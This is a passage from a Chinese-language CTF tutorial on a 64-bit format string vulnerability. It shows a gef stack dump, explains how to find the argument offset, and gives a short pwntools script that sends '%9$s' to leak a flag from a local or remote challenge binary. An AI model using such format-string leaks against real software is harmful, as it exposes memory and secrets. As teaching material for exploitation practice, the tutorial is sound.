 ```shell
   0x7ffff7a627f7 <fprintf+135>    add    rsp, 0xd8
   0x7ffff7a627fe <fprintf+142>    ret    
   0x7ffff7a627ff                  nop    
 → 0x7ffff7a62800 <printf+0>       sub    rsp, 0xd8
   0x7ffff7a62807 <printf+7>       test   al, al
   0x7ffff7a62809 <printf+9>       mov    QWORD PTR [rsp+0x28], rsi
   0x7ffff7a6280e <printf+14>      mov    QWORD PTR [rsp+0x30], rdx
───────────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb08', 'l8']
8
0x00007fffffffdb08│+0x00: 0x0000000000400890  →  <main+234> mov edi, 0x4009b8	 ← $rsp
0x00007fffffffdb10│+0x08: 0x0000000031000001
0x00007fffffffdb18│+0x10: 0x0000000000602830  →  0x0000363534333231 ("123456"?)
0x00007fffffffdb20│+0x18: 0x0000000000602010  →  "You answered:\ng"
0x00007fffffffdb28│+0x20: 0x00007fffffffdb30  →  "flag{11111111111111111"
0x00007fffffffdb30│+0x28: "flag{11111111111111111"
0x00007fffffffdb38│+0x30: "11111111111111"
0x00007fffffffdb40│+0x38: 0x0000313131313131 ("111111"?)
──────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x7ffff7a62800 → Name: __printf(format=0x602830 "123456")
[#1] 0x400890 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────


```

可以看到 flag 对应的栈上的偏移为 5，除去对应的第一行为返回地址外，其偏移为 4。此外，由于这是一个 64 位程序，所以前 6 个参数存在在对应的寄存器中，fmt 字符串存储在 RDI 寄存器中，所以 fmt 字符串对应的地址的偏移为 10。而 fmt 字符串中 `%order$s` 对应的 order 为 fmt 字符串后面的参数的顺序，所以我们只需要输入 `%9$s` 即可得到 flag 的内容。当然，我们还有更简单的方法利用 https://github.com/scwuaptx/Pwngdb 中的 fmtarg 来判断某个参数的偏移。

```shell
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```

需要注意的是我们必须 break 在 printf 处。

#### 利用程序

```python
from pwn import *
from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
print sh.recv()
sh.interactive()
```
